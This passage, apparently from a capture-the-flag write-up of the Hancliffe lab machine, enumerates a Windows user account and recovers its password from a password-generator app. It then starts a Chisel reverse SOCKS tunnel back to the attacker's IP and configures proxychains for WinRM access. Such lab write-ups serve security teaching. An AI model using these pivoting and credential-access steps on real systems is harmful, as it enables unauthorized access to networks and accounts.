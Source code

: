 There is a user named development on Hancliffe:

    
    
    PS C:\> net user development
    net user development
    User name                    development
    Full Name                    
    Comment                      
    User's comment               
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never
    
    Password last set            6/26/2021 9:35:26 PM
    Password expires             Never
    Password changeable          6/26/2021 9:35:26 PM
    Password required            Yes
    User may change password     No
    
    Workstations allowed         All
    Logon script                 
    User profile                 
    Home directory               
    Last logon                   1/29/2022 5:21:33 AM
    
    Logon hours allowed          All
    
    Local Group Memberships      *Remote Management Use*Users                
    Global Group memberships     *None                 
    The command completed successfully.
    

They are even in the Remote Management Users group, which means they can
connect over WinRM.

If I guess the username development, and fill in the other two fields from the
saved password, it returns a password on clicking “Generate Password”:

![image-20220129082513332](https://0xdfimages.gitlab.io/img/image-20220129082513332.png)

#### Tunnel WinRM

To see if “AMl.q2DHp?2.C/V0kNFU” is the password for the development account,
I’ll start a new Chisel tunnel that provides a Socks proxy:

    
    
    PS C:\programdata> .\c client 10.10.14.6:8000 R:socks
    .\ch client 10.10.14.6:8000 R:socks
    2022/01/29 05:14:12 client: Connecting to ws://10.10.14.6:8000
    2022/01/29 05:14:12 client: Connected (Latency 91.3529ms)
    

I’ll confirm the list of proxies at the end of `/etc/proxychains.conf` is
correctly pointing to TCP 1080:

    
    
    [ProxyList]
    socks5  127.0.0.1 1080
    